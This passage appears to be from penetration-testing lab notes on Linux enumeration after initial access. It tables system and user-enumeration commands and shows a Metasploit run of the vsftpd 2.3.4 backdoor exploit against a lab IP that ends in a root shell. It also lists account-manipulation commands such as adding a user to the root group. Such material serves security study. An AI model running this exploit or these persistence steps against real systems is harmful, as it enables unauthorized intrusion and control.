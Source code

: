 | Command             | Description                                               |
| ------------------- | --------------------------------------------------------- |
| `hostname`          | The computer name.                                        |
| `cat /etc/issue`    | The OS version.                                           |
| `cat /etc/*release` | The OS releases.                                          |
| `uname -a`          | Display hostname, kernel version, datetime, architecture. |
| `uname -r`          | Kernel version.                                           |
| `env`               | Environment variables for the current user.               |
| `lscpu`             | CPU information.                                          |
| `free -h`           | RAM consumed.                                             |
| `df -h`             | List of file systems.                                     |
| `df -ht ext4`       | Filter on type `ext4`.                                    |
| `lsblk`             | List partitions.                                          |
| `dpkg -l`           | All installed packages.                                   |

#### Users & groups

After gaining initial access to a target system, it is always important to learn more about the system like, what user account you have access to and other user accounts on the system.

What are we looking for?

* Current user & privileges
* Other users on the system
* Groups

```bash
msf6> db_nmap -sV 192.144.183.3
msf6> setg rhosts 192.144.183.3
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
/bin/bash -i
root@victim> id  # root
```

| Command                        | Description                                                                                                   |
| ------------------------------ | ------------------------------------------------------------------------------------------------------------- |
| `groups root`                  | The groups the user `root` is part of.                                                                        |
| `cat /etc/passwd`              | Display user & service accounts. A user account has a shell at the end of line like `/bin/bash` or `/bin/sh`. |
| `groups`                       | The current user groups.                                                                                      |
| `useradd -m john -s /bin/bash` | Create a user john with a home directory and a login shell.                                                   |
| `usermod -aG root bob`         | Add bob to the root group.                                                                                    |
| `last`                         | Show the last users logged on.                                                                                |
| `lastlog`                      | Display all information about logged in users via SSH.                                                        |
